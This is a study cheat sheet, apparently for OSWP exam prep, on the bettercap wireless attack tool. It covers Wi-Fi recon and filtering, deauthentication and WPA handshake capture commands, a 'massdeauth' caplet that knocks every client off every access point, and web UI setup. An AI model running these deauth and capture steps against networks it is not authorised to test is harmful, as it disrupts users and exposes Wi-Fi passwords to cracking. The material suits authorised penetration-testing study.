 ```yaml
---
{"dg-publish":true,"permalink":"/oswp/i-bettercap/"}
---
```


----------------------
	Swiss Army Knife of Network Hacking

## Getting started
Start bettercap:
```
sudo bettercap -iface wlan0
```
Clear screen:
	clear
Exit bettercap:
	exit
--------------
## Modules vs. commands
- Six modules:
	- Bluetooth LE
	- HID on 2.4GHz
	- Ethernet
	- Wi-Fi
	- Ticker
-------------
## Commands:
### Scanning & discovery
Start/stop scanning for APs, clients & handshakes:
```
wifi.recon <on/off>
```
Scan for specific channels:
```
wifi.recon.channel 6,11
```
Clear specified channels:
```
wifi.recon.channel clear
```
Enumerate connected clients:
```
wifi.recon c6:2d:56:2a:53:f8
```
Exit client view:
```
wifi.recon clear
```
Display discovered wireless stations:
```
wifi.show
```
Clear discovered APs:
```
wifi.clear
```
Change how long for client to be marked as disconnected (default 300/five min):
```
set wifi.sta.ttl 100
```
Enable/disable 802.11 checksum validations:
```
set wifi.skip-broken <true/false>
```
### Filtering & sorting
Sort discovered stations:
```
set wifi.show.sort <column-name> <asc/desc>
```
Filter discovered stations:
```
set wifi.show.filter "WPA2"
```
Clear filter:
```
set wifi.show.filter ""
```
Enumerate clients connected to AP:
```
wifi.recon c6:2d:56:2a:53:f8
wifi.show
```
Filter discovered stations for signal strength (default -200):
```
set wifi.rssi.min -49
```
Limit number of APs displayed (clear with 0)
```
set wifi.show.limit 10
```
Show manufacturers:
```
set wifi.show.manufacturer true
```
### Tickers
Enable/disable ticker:
```
ticker <on/off>
```
Set ticker commands:
```
set ticker.commands "clear; wifi.show"
```
Run ticker on start:
```
sudo bettercap -iface wlan0 -eval "set ticker.commands 'clear; wifi.show'; wifi.recon on; ticker on"
```
Set ticker time to execution (default 1 sec):
```
set ticker.period 2
```
### Deauth & handshakes
Deauthenticating AP:
```
wifi.deauth c6:2d:56:2a:53:f8
```
Deauthenticating client:
```
wifi.deauth ac:22:0b:28:fd:22
```
Getting handshake:
```
get wifi.handshakes.file
```
Setting handshake save file:
```
set wifi.handshakes.file "/home/kali/handshakes/"
set wifi.handshakes.aggregate false
```
Adding devices to skip-list:
```
set wifi.deauth.skip ac:22:0b:28:fd:22,c6:2d:56:2a:53:f8
```
Skipping previously captured handshakes:
```
set wifi.deauth.acquired <true/false>
```
Deauthenticating open networks:
```
set wifi.dauth.open <true/false>
```
Hiding deauth-messages from terminal:
```
set wifi.deauth.silent <true/false>
```

------------------

## Caplets
Files that allows to run a series of commands in bettercap using .cap extension

Caplet directory: 
 `/usr/share/bettercap/caplets/`

Example caplet "massdeauth.cap":
```
set $ {by}{fw}{env.iface.name}{reset} {bold}» {reset}

# every 10 seconds deauth every client from every ap
set ticker.period 10
set ticker.commands clear; wifi.deauth ff:ff:ff:ff:ff:ff

# uncomment to only hop on these channels:
# wifi.recon.channel 1,2,3

wifi.recon on
ticker on
events.clear
clear
```

Example caplet "deauth_corp.cap":
```
set $ {br}{fw}{net.received.human} - {env.iface.name}{reset} » {reset}

set ticker.period 10
set ticker.commands clear; wifi.show; events.show; wifi.deauth c6:2d:56:2a:53:f8

events.ignore wifi.ap.new
events.ignore wifi.client.probe
events.ignore wifi.client.new

wifi.recon on
ticker on
events.clear
clear
```

Starting caplet:
```
sudo bettercap -iface wlan0 -caplet <caplet-file>
```

Starting caplet from session:
```
include <caplet-file>
```

---------

## Bettercap Web Interface

Set up server firewall rules:
```
sudo nft add table inet filter
sudo nft add chain inet filter INPUT { type filter hook input priority 0\; policy drop\; }
sudo nft add rule inet filter INPUT ip saddr <your-ip> tcp dport 443 accept
sudo nft add rule inet filter INPUT ip saddr <your-ip> tcp dport 8083 accept
```

Configure username and password:
```
sudo nano /usr/share/bettercap/caplets/https-ui.cap
#Edit lines 16 and 17
```

Start web UI:
```
sudo bettercap -iface wlan0 -caplet https-ui
```

Access:
- Accept self-signed certs on main page and :8083/api